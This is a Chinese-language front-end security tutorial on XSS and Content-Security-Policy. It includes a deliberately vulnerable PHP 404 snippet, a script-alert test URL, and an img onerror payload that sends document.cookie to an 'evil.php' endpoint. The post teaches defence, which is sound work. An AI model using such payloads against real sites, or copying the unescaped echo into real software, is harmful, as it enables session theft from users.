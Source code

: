 ```yaml
---
path: '/csp-n-xss'
date: '2020-02-13T11:45:59.470Z'
title: '前端网络安全必修 2 XSS 和 CSP'
tags: ['coding', '网络安全']
---
```


本文主要涉及内容为：

- 跨站脚本攻击（Cross-site scripting，简称 XSS）
- 内容安全策略（Content-Security-Policy，简称 CSP）

因为 CSP 诞生的主要目的就是防御 XSS 攻击，就把 XSS 放在前面讲吧~

## XSS

```html
<html>
  <body>
    <? php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>
  </body>
</html>
```

这是一个找不到页面时的通用提示代码，同时，也是一个极容易被 XSS 攻击的例子，它很老实地把用户发送的东西都直接塞到 html 里。

当然，你在访问 `http://testsite.test/file_which_not_exist` 的时候它会很正常地表现为：

```
Not found: /file_which_not_exist
```

但是如果想做点坏事，访问 `http://testsite.test/<script>alert("我要做坏事");</script>`，结果会是：

```
Not found: /
```

虽然看起来后面什么都没有，但是如果什么防范措施都没有的话，**js 脚本已经顺利运行了**。

一般这种攻击能做的坏事是盗取用户 cookie，例如插入这样一段代码：

```html
<img
  src="xx"
  onerror="post('../evil.php?cakemonster=' + escape(document.cookie))"
/>
```

上面这种**利用错误信息和搜索结果的反射**进行的 XSS，称为**反射型 XSS**。

还有另一种 XSS 是**储存型 XSS**。

储存型也比较容易理解，**攻击者把恶意脚本提交到被害服务器**，并成功储存，所有人访问特定页面都会遭到攻击。

举个例，要放到富文本编辑器的内容如果不小心处理就很容易被储存型 XSS 攻击。

你可以在[这里](https://jsxss.com/zh/try.html)对比一下 XSS 过滤前后的区别。

另外还有恶名昭彰的 SQL 注入，原理也是差不多。

## html 安全注入

html 会不安全，是因为 `<` 和 `>` 等符号在 html 里都是有内涵的符号，如果像上面一样直接把 `<>` 插到 html 中，处理器自然会认为那是一个标签，而不是小于号和大于号。

对 html 字符串来说，真正的小于号是 `&lt;`，大于是 `&gt;`，意思就是 less than 和 greater than，类似的还有空格 `&nbsp;`。

上面提到的**转义字符**分为 `&` + 实体名称 + `;` 三个部分，你也可以使用**实体编号**而不是**实体名称**。例如 `#60` 是 `lt` 的实体编号，`&lt;` 和 `&#60;` 渲染出来就是同一个东西。

那么实体编号怎么查呢？建议直接用 `charCodeAt()`：

```javascript
'网'.charCodeAt() // => 32593
```

`&#32593;` 就等于“网”字，如果你愿意，甚至可以全都使用实体编号来代替文字 😂

以上是当你使用 php 等处理得到的 html 或是使用 JavaScript 的 **innerHTML** 赋值等 dom 操作时需要注意的内容（react 用户可能知道，react 已经用属性名 `dangerouslySetInnerHTML` 很明确告诉你这个操作很危险）。如果你是使用 `innerText` 插入的话你插入的是普通字符串而不是作为 html 插入，所以放心使用 `<>` 吧，他们就是小于和大于的意思 😀

## CSP

CSP 就是一个**白名单机制**，只允许你的网页里读取指定域名的资源，可用于防止 XSS 攻击。

使用 CSP 的第一种方法是在 HTTP 头定义 Content-Security-Policy：

```
Content-Security-Policy: default-src https://cdn.example.net https://cdn.example2.net; object-src 'none'
```

CSP 的值中，不同属性以 `;` 隔开，同一属性的多个值以空格隔开。上面例子的意思就是默认允许读取 https://cdn.example.net 和 https://cdn.example2.net 的资源，object-src 使用的相关资源无白名单，也就是完全不允许读出。

如果使用了不符合要求的资源，**浏览器**会给予拦截，给出下面的提示：

```
Refused to execute inline script because it violates the following Content Security Policy directive
```

你也可以使用 meta 标签代替 HTTP 头：

```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src https://cdn.example.net; child-src 'none'; object-src 'none'"
/>
```

Content-Security-Policy 的常用选项有这些：

- **default-src** 是 src 选项的默认值，但不能覆盖以下值：base-uri、form-action、frame-ancestors、plugin-types、report-uri、sandbox
- **base-uri** 特别说一下 `<base>` 标签是因为孤陋寡闻的我第一次见到。 指定用于一个文档中包含的所有相对 URL 的根 URL，一个文件只能有一个 `<base>` 标签，用起来大概是这样的：`<base target="_top" href="http://www.example.com/">`。
- **connect-src** XHR、WebSockets 等连接使用的地址
- **font-src** 字体文件来源
- **img-src** 图片地址
- **media-src** 音视频地址
- **object-src** Flash 相关
- **report-uri** 出现报错时提交到指定 uri，不能在 `<meta>` 标签使用
- **style-src** 样式文件

在资源列表中除了指定域名，你还可以使用下面四个关键词，注意**一定要加单引号**：

- **'none'** 不进行匹配
- **'self'** 当前域名，不包含子域名
- **'unsafe-inline'** 允许行内 JavaScript 与 CSS
- **'unsafe-eval'** 允许类 eval 操作

当 CSP 正确设置，XSS 插入的行内代码或外部 js 文件就会被拦截。当然这是最后一道防线了，前面提到的关键字过滤也是对付 XSS 的好方法。

要说的基本就这么多，希望大家以后在使用 php、jsp 等后端语言构造 html 文档时要认真思考有没有 XSS 漏洞；另外，在前后端分离发展蓬勃的今天，XSS 可能出现在富文本编辑器中，也同时需要多加注意。

## 拓展阅读

[CSP Cheat Sheet](https://scotthelme.co.uk/csp-cheat-sheet/)

[meta 标签 mdn 文档](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/meta)

[base 标签 mdn 文档](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/base)

## 参考

**重点推荐** [An Introduction to Content Security Policy](https://www.html5rocks.com/en/tutorials/security/content-security-policy/)

[CROSS-SITE SCRIPTING (XSS) TUTORIAL](https://www.veracode.com/security/XSS)

[html 转义字符串](http://caibaojian.com/576.html)

